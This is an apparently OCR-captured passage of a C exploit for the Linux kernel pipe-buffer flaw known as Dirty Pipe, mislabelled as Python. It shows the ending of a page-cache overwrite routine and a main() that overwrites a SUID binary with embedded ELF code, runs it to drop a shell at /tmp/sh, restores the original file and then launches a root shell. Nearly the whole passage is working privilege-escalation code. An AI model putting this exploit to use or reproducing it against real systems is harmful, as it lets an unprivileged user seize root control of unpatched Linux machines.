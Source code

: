 ```python
     since copy_page_to_iter_pipe() does not initialize the
     "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
  --offset;
  ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
  if (nbytes < 0) {
    perror("splice failed");
    return -1;
  }
  if (nbytes == 0) {
    fprintf(stderr, "short splice\n");
    return -1;
  }

  /* the following write will not create a new pipe_buffer, but
     will instead write into the page cache, because of the
     PIPE_BUF_FLAG_CAN_MERGE flag */
  nbytes = write(p[1], data, len);
  if (nbytes < 0) {
    perror("write failed");
    return -1;
  }
  if ((size_t)nbytes < len) {
    fprintf(stderr, "short write\n");
    return -1;
  }

  close(fd);

  return 0;
}

int main(int argc, char **argv) {
  if (argc != 2) {
    fprintf(stderr, "Usage: %s SUID\n", argv[0]);
    return EXIT_FAILURE;
  }

  char *path = argv[1];
  uint8_t *data = elfcode;

  int fd = open(path, O_RDONLY);
  uint8_t *orig_bytes = malloc(sizeof(elfcode));
  lseek(fd, 1, SEEK_SET);
  read(fd, orig_bytes, sizeof(elfcode));
  close(fd);

  printf("[+] hijacking suid binary..\n");
  if (hax(path, 1, elfcode, sizeof(elfcode)) != 0) {
    printf("[~] failed\n");
    return EXIT_FAILURE;
  }

  printf("[+] dropping suid shell..\n");
  system(path);

  printf("[+] restoring suid binary..\n");
  if (hax(path, 1, orig_bytes, sizeof(elfcode)) != 0) {
    printf("[~] failed\n");
    return EXIT_FAILURE;
  }

  printf("[+] popping root shell.. (dont forget to clean up /tmp/sh ;))\n");
  system("/tmp/sh");
```